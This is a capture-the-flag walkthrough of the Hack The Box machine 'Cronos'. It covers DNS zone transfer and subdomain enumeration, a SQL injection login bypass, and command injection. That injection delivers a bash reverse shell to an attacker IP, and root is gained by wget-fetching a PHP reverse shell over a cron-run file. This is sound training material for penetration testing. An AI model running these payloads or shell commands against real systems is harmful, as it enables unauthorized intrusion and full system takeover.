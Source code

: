 # Cronos

**Machine ip:** 10.10.10.13

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.13 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.13`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/91f25735-459a-4a75-a798-2c419bd4a7c1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7764b71-bd50-4af5-ab88-80b1f69cbd8b)

+ dns enumeration: `nslookup`
```
└─$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8878f5ed-c712-45c6-aa14-0b093ff5139c)

+ dns enumeration: `nslookup 10.10.10.13 10.10.10.13`
```
└─$ nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/08c7ad57-ee86-4e75-8e75-e12dd33f9c64)

+ Zone transfer: `host -l cronos.htb 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/85af127e-788f-4388-960a-f43543698b49)


+ Zoner transfer: `dig axfr @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ac1ace97-a6ec-4bb8-958d-5d740aaf4e59)

+ `dig any @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc415b9e-da19-489d-a4b8-8ca809bf085b)

+ Add domains into `/etc/hosts` file
```
echo "10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

+ Enumerate subdomain:
```
gobuster dns -d cronos.htb -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/443694fe-6171-479f-8ff4-92d5bc986ca1)

+ Navigate to `http://admin.cronos.htb/`
+ Login bypass injecting `admin' or '`:`pass`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9bcf5f5e-d294-4d8c-94c1-e7b104bbd065)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4e8644a6-27b4-4344-89e3-1212103589d8)

+ Use `;` to inject command, and that works.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5933aa22-258b-4e2a-a2ec-dd75145e7892)

+ Start a netcat listener: `nc -lnvp 4444`
+ Inject reverse payload after `;`  `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"` and execute
+ Get shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/765ae797-f4f3-4efc-8602-2587e6aeba6a)

+ Check cronjobs: `cat /etc/crontab` on the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f5fd4a0-4895-4cbb-bc40-6ef8ece43146)

+ `cp /usr/share/webshells/php/php-reverse-shell.php shell.php` on your attack machine.
+ Change ip address and port number.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b08c2273-d780-4622-9ed4-f50cd8f50d9b)

+ Start `python3 -m http.server` on the attack machine.

+ Transfer to the target.
+ `cd /var/www/laravel/` on the target.
+ `wget 10.10.14.18:8000/shell.php -O artisan`
+ `chmod +x artisan`

+ Start listener: `nc -lnvp 5555`
+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bca0fd82-2a1b-4293-bbe0-8f697cba3cdd)


# References & Alternatives:
+ https://vvmlist.github.io/#cronos
+ https://0xdf.gitlab.io/2020/04/14/htb-cronos.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/cronos-writeup-w-o-metasploit
+ 
